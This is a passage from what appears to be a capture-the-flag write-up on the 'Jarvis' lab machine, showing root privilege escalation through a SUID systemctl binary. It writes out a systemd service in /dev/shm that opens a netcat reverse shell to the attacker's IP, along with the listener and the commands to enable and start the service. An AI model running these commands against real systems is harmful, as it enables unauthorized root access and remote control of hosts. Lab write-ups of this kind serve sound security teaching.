 {% highlight bash linenos %}
TERM=ansi
{% endhighlight %}

Now I had a fully functional socat shell. Since I was now a new user, I re-ran my linenum.sh script. During this enumeration, I found that there was a binary running with SUID set:

{% highlight bash linenos %}
/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
{% endhighlight %}

Can you spot it in this list? It is systemctl. Normally, an unprivileged user should not have access to run this binary. This took quite a bit of time, and effort, on my end to learn this. I could manage system processes, but I could not write to the standard directory where they need to be in to start. To get around this, I learned about the /dev/shm/ directory. I wrote a small and simple process to this directory:

{% highlight bash linenos %}
nano /dev/shm/my.service

[Service]
Type=oneshot
ExecStart=/bin/netcat -e /bin/sh 10.10.14.29 31347
[Install]
WantedBy=multi-user.target
{% endhighlight %}

And once it was made, I had to then enable the process. The next two commands enable the process, give it executable permissions:

{% highlight bash linenos %}
systemctl enable /dev/shm/my.service
Chmod +x my.service
{% endhighlight %}

And now, for my third reverse shell! On my Kali I setup ANOTHER listener (I began to run out of 1337 speak numbers):

{% highlight bash linenos %}
nc -lvp 31347
{% endhighlight %}

And on Jarvis, used systemctl to run my new process:

{% highlight bash linenos %}
nsystemctl start my.service
{% endhighlight %}

And with that, back on the final reverse shell, we are now root:

{% highlight bash linenos %}
cat /root/root.txt
d41d8cd98f00XXXXXXXXXXXXXXXXXXXX
{% endhighlight %}
